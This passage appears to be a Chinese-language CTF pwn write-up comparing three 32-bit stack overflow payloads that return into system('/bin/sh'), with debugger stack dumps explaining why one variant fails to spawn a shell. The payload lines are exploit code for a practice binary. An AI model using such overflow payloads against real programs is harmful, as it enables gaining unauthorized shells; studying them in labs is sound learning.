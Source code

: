 
从上面可以看到：

```python
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
#payload的system参数为“/bin/sh”。
```

```python
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
#retn到system@plt
```

```python
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
#error_payload的system参数为“bbbb”，这也就是为什么error_payload无法getshell的原因。
```

现在的栈情况：

+ payload

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608965252300-67161eed-c218-42a0-874b-e7cdb4e54d45.png)

+ payload1

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608965301698-f82ecfee-ce77-48d3-9df2-4b2a1d391e22.png)

+ error_payload

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608965323929-a76df14d-8f37-4c16-b525-e044ef426db4.png)

---

接下来将为payload和error_payload进行单步步入，payload1暂时不动：

```python
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608965614324-4384fcb8-b795-44d5-9534-5a8f0a0bfe99.png)

```python
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608965654745-746dea0f-36a0-42a7-9cdc-d2c54fe01b93.png)

```python
error_payload=(0x88+0x4)*'a'+p32(system_addr)+'bbbb'+p32(bin_sh_addr)
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1608965682436-de32500d-bdab-42cb-8616-60abe9ca5b48.png)

从上面看到，三个payload已经执行到了相同的地方。

现将payload中的重要栈截取出来：（栈是由高地址向低地址生长的）

```python
payload=(0x88+0x4)*'a'+p32(system_addr)+p32(bin_sh_addr)
00:0000│ esp  0xffffd03c —▸ 0x8048461 (vulnerable_function+22) ◂— add    esp, 0x10
01:0004│      0xffffd040 —▸ 0x804a024 (hint) ◂— '/bin/sh'
02:0008│      0xffffd044 —▸ 0xffffd00a ◂— 0x61616161 ('aaaa')
03:000c│      0xffffd048 ◂— 0x0
04:0010│      0xffffd04c —▸ 0xf7e18647 (__libc_start_main+247) ◂— add    esp, 0x10
05:0014│      0xffffd050 —▸ 0xf7fb3000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
... ↓
07:001c│      0xffffd058 ◂— 0x0
-----------------------------------------------------------------------------------
payload1=(0x88+0x4)*'a'+p32(system_plt_addr)+'bbbb'+p32(bin_sh_addr)
00:0000│ esp  0xffffd040 ◂— 0x62626262 ('bbbb')
01:0004│      0xffffd044 —▸ 0x804a024 (hint) ◂— '/bin/sh'
```